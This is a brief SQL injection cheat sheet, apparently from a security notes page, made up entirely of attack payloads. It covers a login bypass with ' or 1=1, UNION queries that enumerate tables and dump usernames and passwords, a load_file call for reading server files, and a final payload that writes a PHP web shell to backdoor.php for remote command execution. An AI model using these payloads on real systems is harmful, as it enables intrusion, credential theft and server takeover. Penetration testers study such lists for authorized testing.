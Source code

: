 ### SQL Injection

```
' or 1=1 LIMIT 1;#
```
```
<Username>' or 1=1 LIMIT 1;#
```
```
id=1 order by 1
```
```
UNION all select 1,2,3
```
```
UNION all select 1,2, @@version
```
```
UNION all select 1,2, user()
```
```
UNION all select 1,2, table_name from information_schema.tables
```
```
UNION all select 1,2, column_name from information_schema.columns where table_name='users'
```
```
UNION all select 1, username, password from users
```
```
UNION all select 1,2, load_file('path/to/file')
```
```
UNION all select 1,2,"<?php echo '<pre>' .shell_exec($_GET['cmd']). '</pre';?>" into OUTFILE'path/to/backdoor.php'
----
(ip/backdoor.php?cmd=ipconfig)
```


